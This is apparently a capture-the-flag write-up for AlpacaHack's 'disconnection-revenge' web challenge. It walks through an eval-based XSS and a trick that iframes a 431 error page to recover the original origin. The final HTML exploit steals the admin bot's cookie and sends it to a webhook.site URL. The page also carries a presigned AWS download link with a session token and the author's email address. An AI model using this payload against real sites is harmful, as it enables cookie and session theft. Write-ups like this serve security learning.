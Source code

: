 ```yaml
---
id: 14e48583-e65d-80e6-b8d5-c53f07905d97
title: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
created_time: 2024-11-30T11:42:00.000Z
last_edited_time: 2025-05-22T09:27:00.000Z
cover_image: ./imgs/just-a-chill-guy_3tLjvXZj.jpg
icon_emoji: 😭
categories:
  - XSS
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/just-a-chill-guy_3tLjvXZj.jpg

---
```


Unfortunately, I solved this challenge only 30 minutes after the CTF ended. Here is my write-up about the challenge.

![](./imgs/image_DwgIE5Io.png)

![](./imgs/image_OeAvG4ga.png)

# Description

This is a fixed challenge of `disconnection`.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/05b115ea-7d4c-4e24-b39d-6e32117c2161/disconnection-revenge.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466S2TQUAS4%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T120109Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDQaCXVzLXdlc3QtMiJIMEYCIQDkE0NceA8bXVfoA1sPWR6ZpwQQxBVBzM%2BCyvTLmV9dnwIhANud3OyCjrxtUbYSujhorO%2BxsHG%2F1HFah8L6MvYLIyHrKogECO3%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQABoMNjM3NDIzMTgzODA1Igyk2kC1Mtldt%2BN7fZQq3APTL1wcw3taH3lwslWLGmxaZtAn5kLJSLIDYK69bcSTnHczDM%2Brc9uWRq3BHdHVroV%2B1M8Czo%2Bdx%2Fb8M%2B63cmdapgzC3g%2F37EYlYPuMslyD2FGngsQx%2F5nNghLls1XCMCzaghU3Zh%2FWTVVdzafNFCVoJYRLZ%2BUqAszqxKfFl7%2Bckl%2BhUTsvCtjHzQMh8%2BmokQbAAGBHG1cbA0gPFT442bGazh5%2BuZLCgJh5s%2BL8eA1iT98QCLgO0K0UAr3Mc4MMJr%2FxM8tqJXWbKyH7P2hIAateuR8IG29Hg%2BboSWsYTJSRtk1HbjtORCVnTLpwOc%2FHPXIAhwr%2FK4ve1wQRFL9zzXI7ncmxjJIkXyyrwQE3P%2BhSaH2sMrpMs%2BUYN%2FBXdofW%2BCp2LiPEgywrh%2BJ3XRB7PR6ZB0sa5%2B%2BW6v4y3NzRzy3nHLMs%2FZgtB2d8JXuWmxq9fKlNPX3v0iUdx2KQJkW8F0rYHImK3v1pfwsV%2F79t2PJxCHZ9dAv0ezUrA2fPdWB7WMC9wMWOMrLeDJZfkb3K3s%2BJhfalG%2BMF8TOP8RdsGFZFE9%2BlqZy5yJUFaqz2hQqkHPE9DFHCABFEyUSHp4c%2FHYl7h3Xk5MiD7KB5iC2WGkstn89O0f85uDTlrF%2FfmTCav8HBBjqkAcxf%2BneBdaUGDjUPAZUjT85KTzDBvZaZ%2FYwORDXwyn25kxpalcFkth2gnFC%2BDGnG4gzo71Tmss2FZCNjlwr6xcc3R3hF8Kr9ZEmCNPpocyEKM29X7ZeeL0abNTWbkGVxt3E7SngtkxQgy7NNSuOS%2FyeVJ0%2FoV4jZfIpD8rpyDubv2DoFlIlqSb8XgD2TmohZfTjt%2BLPRsuTTgs%2BbCe%2BQKO9N4kGp\&X-Amz-Signature=3ad57d820baf4e27be18cce0487b02256977bb497a1a58c3ef64bb4454172c10\&X-Amz-SignedHeaders=host\&x-id=GetObject)

*   Challenge: [http://34.170.146.252:55944](http://34.170.146.252:55944/), Admin bot: [http://34.170.146.252:56152](http://34.170.146.252:56152/) shared

# Exploit

In this challenge, we are given source code like this:

```javascript
import express from "express";

const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .all("/*", (req, res) => res.socket.destroy()) // disconnected
  .use((err, req, res, next) => {
    // revenge!
    res.socket.destroy(); // disconnected
  })
  .listen(3000);

```

The interesting part about this source code is in the Content Security Policy (CSP):

```javascript
res.setHeader(
  "Content-Security-Policy",
  "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
);

```

The disconnect mechanism:

```javascript
.all("/*", (req, res) => res.socket.destroy()) // disconnected
.use((err, req, res, next) => {
  // revenge!
  res.socket.destroy(); // disconnected
})

```

There's also a code injection vulnerability here that allows us to gain XSS:

```javascript
const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();
```

The flag is located in the `/cookie` path, as shown in this snippet of the source code:

```javascript
await page.setCookie({
  name: "FLAG",
  value: FLAG,
  domain: APP_HOST,
  path: "/cookie", // 🍪
});

```

The interesting part is that we can't get the flag easily by accessing `/cookie` directly using XSS and get the cookie from that. The disconnect mechanism causes us to be instantly disconnected when accessing any URL except `/`, resulting in a browser error. Therefore, when we try to access URLs like `/cookie`, the browser will instantly error ERR\_EMPTY\_RESPONSE, and the origin will be null as shown in the image below.

![](./imgs/image_xyiZIUrb.png)

There’s a trick introduced in a previous Google CTF to bypass this issue, as detailed in this [Google CTF solution](https://github.com/google/google-ctf/tree/8ea1054a4a6af49e8cf14e10896dc94d73126a29/2023/quals/web-postviewer2/solution#no-csp-subpage). The trick involves adding an arbitrarily large number of characters into the parameters to make the server return `431 (Request Header Fields Too Large)`. However, simply adding a large number of characters to the parameters won't work, as shown in the image below, where the origin is still null.

![](./imgs/image_oXKFjaHs.png)

The key is to iframe the `431` page, which somehow makes the origin become the original origin instead of null, as shown in the image below.

![](./imgs/image_U9FpYp4t.png)

But… there’s always a problem after problem. The cookie isn’t included in the iframe because the cookie isn’t set to `SameSite=None`, so it’s not included in the iframe in a different origin.

![](./imgs/image_nVR512CH.png)

I just found a strange trick after trying to open a new opener inside the `/cookie` path here:

![](./imgs/image_8Oq9CJYo.png)

When I try to `open("")`, it will have an origin, and the location is `about:blank`. There’s also the flag that should be in the `/cookie` path. I assume that the window we open is somehow in the `/cookie` path, but with the `about:blank` location. I don't know why this happens 💀. But here is my final exploit:

```html
<html>
    <body>
        <iframe></iframe>
        <iframe></iframe>
        <script>
            async function main(){
                const target = "disconnection-revenge"
                const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
                var iframe = document.getElementsByTagName('iframe')[0];
                iframe.src = "http://"+target+":3000/cookie/?"+"A".repeat(100000);
                await sleep(1000);
                var iframe2 = document.getElementsByTagName('iframe')[1];
                iframe2.src = "http://"+target+":3000/?xss="+"w = top.frames[0].open('');setTimeout(()=>{open(`https://webhook.site/37fa4a4c-9842-42db-9431-a15d81aee4a0?${w.document.cookie}`)},1000)";
                await sleep(1000);
            }
            main();
        </script>
    </body>
</html>

```

![](./imgs/image_BQK3W663.png)
